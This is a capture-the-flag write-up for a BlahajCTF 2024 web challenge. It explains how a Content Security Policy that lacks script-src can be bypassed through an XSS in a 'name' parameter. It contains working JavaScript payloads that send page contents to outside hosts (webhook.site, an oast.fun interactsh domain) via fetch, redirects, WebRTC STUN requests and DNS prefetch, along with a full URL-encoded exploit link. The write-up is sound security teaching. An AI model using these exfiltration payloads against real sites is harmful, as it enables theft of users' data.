 ```yaml
---
title: Insecure Content
date: 2024-11-24
tags: 
- web
- csp
- author-hartmannsyg
categories: BlahajCTF 2024
---
```


by {% person hartmannsyg %}

> Secure Content was secure, but this time its more (less) secure!

This challenge was written as a spinoff of another challenge called <u>**Secure Content**</u>, which also another Content Security Policy (CSP) challenge. It's supposed to be less secure (and hence easier) than Secure Content, but the description sounds like it is a sequel which was a mistake on my part.

## The attack surface

In the source code given, we see that we can just arbitrarily attack with raw html via `name` - this is a straight up xss with no restrictions.

{% ccb lang:py gutter1:25-41 caption:app.py %}
def generatenamepage(name):
    return """<!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Hello!</title>
        
    </head>
    <body>
        <div>
            <h1>Hello, """+name+"""!</h1>
            <p>I hope you like flags! In fact, here is a flag: blahaj{[FLAG REDACTED]}</p>
            <p>Sadly, only the admin bot can see it :'(</p>
        </div>
    </body>
    </html>"""
{% endccb %}

However, we have a CSP in place:

{% ccb lang:py gutter1:8-24 caption:app.py %}
def apply_csp(response: Response) -> Response:
    csp = (
        "connect-src 'none'; "
        "font-src 'none'; "
        "frame-src 'none'; "
        "img-src 'self'; "
        "manifest-src 'none'; "
        "media-src 'none'; "
        "object-src 'none'; "
        "worker-src 'none'; "
        "style-src 'self'; "
        "frame-ancestors 'none'; "
        "block-all-mixed-content;"
        "require-trusted-types-for 'script';"
    )
    response.headers['Content-Security-Policy'] = csp
    return response
{% endccb %}

Note that we are missing `script-src`, which allows for arbitrary execution of `<script></script>` blocks.

We immediately have a few things to try:

### Send a request

```js
window.onload = () => {
    const flag = document.querySelector("p").innerText.substring(48);
    fetch('https://webhook.site/ac2ef8aa-906a-4ba2-9834-218616911e3c/'+flag)
}
```

{% ccb terminal:true html:true wrapped:true %}
<span style="background-color: rgba(255, 0, 0, 0.1); color: rgb(255, 200, 200)">Refused to connect to 'https://webhook.site/ac2ef8aa-906a-4ba2-9834-218616911e3c/blahaj%7B[FLAG%20REDACTED]%7D' because it violates the following Content Security Policy directive: "connect-src 'none'".</span>
{% endccb %}

### Redirects

```js
window.onload = () => {
    const flag = document.querySelector("p").innerText.substring(48);
    window.location = 'https://webhook.site/ac2ef8aa-906a-4ba2-9834-218616911e3c/'+flag
}
```

CSP does not block redirects (the [navigate-to](https://content-security-policy.com/navigate-to/) directive is not supported by any browser). 

<details>
<summary>However, the admin bot that runs puppeteer blocks cross-origin redirects</summary>
{% ccb lang:js gutter1:15-28 caption:admin.js %}
    // blocks cross-origin redirects
    await page.setRequestInterception(true);

    page.on('request', request => {
        requestURLObj = new URL(request.url())
        if (request.isNavigationRequest() && (requestURLObj.origin != urlObj.origin)) {
          request.abort();
          console.log('uh oh')
          console.log(requestURLObj)
        } else {
            console.log('all good')
            request.continue();
        }
    });
{% endccb %}

</details>

## CSP bypasses

With this, there are two possible solutions:

1. DNS prefetch
2. WebRTC

DNS prefetch does not work on headless, and our admin bot (puppeteer) is being run headless by default. This leaves exfiltration via WebRTC urls:

```js
window.onload = () => {
    let data = 'data'
    let e = new RTCPeerConnection({ iceServers: [{ urls: ["stun:"+data+".zrekefudcwgdnisxolob95nwy11uq3ho7.oast.fun"] }] }); 
    e.createDataChannel(""); 
    e.createOffer().then(r => e.setLocalDescription(r)) 
};
```

To receive this request, we need something to get out-of-band interactions. I am using https://app.interactsh.com/ to receive these WebRTC requests.

The problem with this method is that the urls can only contain lowercase numbers and letters. (There is also a length restriction but I am not evil enough to make the flag so long that you encounter this)

Anyways, I opted to encode the flag as base64, then convert uppercase letters into 2 lowercase letters, and then ship it to the oast url:

```js
window.onload = () => { 
    let data = btoa(document.querySelector("p").innerText.substring(48)); 
    let newdata = data.split("").map((c) => {     
        if (!isNaN(c)) {return c;}     
        else if (c == c.toUpperCase()) {return c.toLowerCase() + c.toLowerCase();}     
        else {return c;} 
    }); 
    let ex = newdata.join("").replaceAll("=",""); 
    let e = new RTCPeerConnection({ iceServers: [{ urls: ["stun:"+ex+".zrekefudcwgdnisxolob95nwy11uq3ho7.oast.fun"] }] }); 
    e.createDataChannel(""); e.createOffer().then(r => e.setLocalDescription(r)) 
}
```

With this we can condense it to a URL paylaod to report to the admin bot (JS minify + `encodeURI()`):

{% ccb wrapped:true terminal:true %}
http://127.0.0.1:8000/greet?name=%3Cscript%3Ewindow.addEventListener%28%22load%22%2C+%28%29+%3D%3E+%7B+let+data+%3D+btoa%28document.querySelector%28%22p%22%29.innerText.substring%2848%29%29%3B+let+newdata+%3D+data.split%28%22%22%29.map%28%28c%29+%3D%3E+%7B+++++if+%28%21isNaN%28c%29%29+%7Breturn+c%3B%7D+++++else+if+%28c+%3D%3D+c.toUpperCase%28%29%29+%7Breturn+c.toLowerCase%28%29+%2B+c.toLowerCase%28%29%3B%7D+++++else+%7Breturn+c%3B%7D+%7D%29%3B+let+ex+%3D+newdata.join%28%22%22%29.replaceAll%28%22%3D%22%2C%22%22%29%3B+console.log%28ex%29%3B+let+e+%3D+new+RTCPeerConnection%28%7B+iceServers%3A+%5B%7B+urls%3A+%5B%22stun%3A%22%2Bex%2B%22.zrekefudcwgdnisxolob95nwy11uq3ho7.oast.fun%22%5D+%7D%5D+%7D%29%3B+e.createDataChannel%28%22%22%29%3B+e.createOffer%28%29.then%28r+%3D%3E+e.setLocalDescription%28r%29%29+%7D%29%3B%3C%2Fscript%3E
{% endccb %}

## Extra

<details>
<summary>How would a DNS prefetch exploit look like?</summary>

```js
window.onload = () => {
    const linkEl = document.createElement("link"); 
    linkEl.rel = "prefetch"; 
    let data = btoa(document.querySelector("p").innerText.substring(48)); 
    let newdata = data.split("").map((c) => {     
        if (!isNaN(c)) {return c;}     
        else if (c == c.toUpperCase()) {return c.toLowerCase() + c.toLowerCase();}     
        else {return c;} 
    }); 
    let ex = newdata.join("").replaceAll("=",""); 
    linkEl.href = `http://${ex}.zrekefudcwgdnisxolob95nwy11uq3ho7.oast.fun`; 
    document.head.appendChild(linkEl);
}
```
</details>